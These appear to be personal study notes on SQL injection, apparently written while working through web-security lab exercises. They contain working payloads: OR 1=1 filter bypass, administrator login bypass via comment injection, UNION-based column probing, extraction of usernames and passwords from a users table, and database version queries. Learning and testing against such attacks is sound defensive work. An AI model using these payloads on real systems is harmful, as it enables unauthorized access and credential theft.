 An vulnerability that makes an attacker to modify a sql query which the application provides to database.

The common places in queries for sql injection:
INSERT query - Value attribute

UPDATE query - WHERE values

SELECT query - table name or col name

SELECT query -ORDER BY clause

### Sample Injection :  OR 1=1--

```perl
https://insecure-website.com/products?category=Gifts'+OR+1=1--

-> causes

SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND condition

In burp we need to put 
category = 'Gifts'+OR+1=1+--
-> + acts as separator of values primarily and as white space secondarily.
```

Provides data from all categories,  and don’t consider the condition

### Can avoid password with this query :

```perl
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

Query : (In burp)

username=administrator'+--
```

### SQL Injection : Union Attacks

Sometimes results of sql query are returned with application’s ui responses, here we can get data from other table in same database using UNION keyword of sql query.

```perl
SELECT a, b FROM table1 UNION SELECT c, d FROM table2

-> The number of columns on both table should be same and the datatypes of columns 
	 should be same.
```

We can find the number of columns of the db which parses the sql query by using “Order BY” clause.

```perl
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --
```

When the web’s response differs from normal output/response, we can understand it is the limit of columns in the table. But here we will get http response, which may become blank/no output at some time due to db’s result. For this we use the alternative “ ‘ UNION SELECT NULL, NULL —

The thing is null will match with any data types of the column, and in maximum cases the response won’t be blank but will just add one extra row of null values with tables values to output.

```perl
'+UNION+SELECT+NULL,+NULL+--

-> in queries and remove all default values of the parameters, correct number of nulls 
will give 200 status code.

```

## **Database-specific syntax**

```sql
For oracle there is a built-in table, so we can use like this

' UNION SELECT NULL FROM DUAL--

-- should be followed by space.
```

### Finding column with specific database

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--

there by we can identify which column has string data type.
```

### We can find username, pw once we know the respective column names, column data types and number of columns:

```sql
' UNION SELECT username, password FROM users--
```

## **Retrieving multiple values within a single column**

```sql
' UNION SELECT username || '~' || password FROM users--

-> Concatenating two columns.
```

## **Examining the database in SQL injection attacks**

We need to find the version and type of db.

The table and column names it contains.

| Database type | Query |
| --- | --- |
| Microsoft, MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

```sql
Sample code:

'UNION SELECT @@version --
```

